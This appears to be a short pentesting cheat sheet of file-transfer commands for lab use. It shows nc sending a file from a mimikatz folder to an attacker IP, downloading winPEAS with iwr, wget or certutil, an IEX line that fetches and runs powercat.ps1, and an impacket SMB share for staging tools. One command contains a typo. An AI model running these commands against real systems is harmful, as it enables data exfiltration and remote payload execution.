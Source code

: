 ```yaml
---
tags:
- training material
created: 2020-01-01
lastmod: 2020-01-01
published: 2020-01-01
image: 
description: 
---
```

#### Transfer to Linux

>[!code]- From Linux or Windows
>On the sending machine
>```powershell
>nc 192.168.118.2 443 < C:\tools\mimikatz\x64\file.txt
>```
#### Transfer to Windows

>[!code]- From Linux or Windows
>On the receiving Windows machine:
>```powershell
>PS C:\Users\dave> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
>```
>___
>```powershell
>PS C:\Users\dave> wget -uri http://192.168.118.2/winPEASx64.exe -OutFile winPEAS.exe
>```
>___
>```powershell
>PS C:\Users\dave> IEX (New-ObjectSystem Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1")
>```
>___
>```powershell
>PS C:\Users\dave> certutil -urlcache -split -f "http://192.168.118.2:8000/winPEASx64.exe" winPEAS.exe
>```

>[!code]- From Linux
>On the sending Linux machine:
>```bash
>impacket-smbserver attacker $(pwd) -smb2support -user bubbleman -password bubbleman
>```
>On the receiving Windows machine:
>```powershell
>$pass = convertto-securestring 'bubbleman' -asplaintext -force
>
$cred = new-object system.management.automation.PSCredential('bubbleman',$pass)
>
new-psdrive -name bubbleman -psprovider filesystem -credential $cred -root \\10.10.14.7\attacker
>
cd bubbleman:
>```

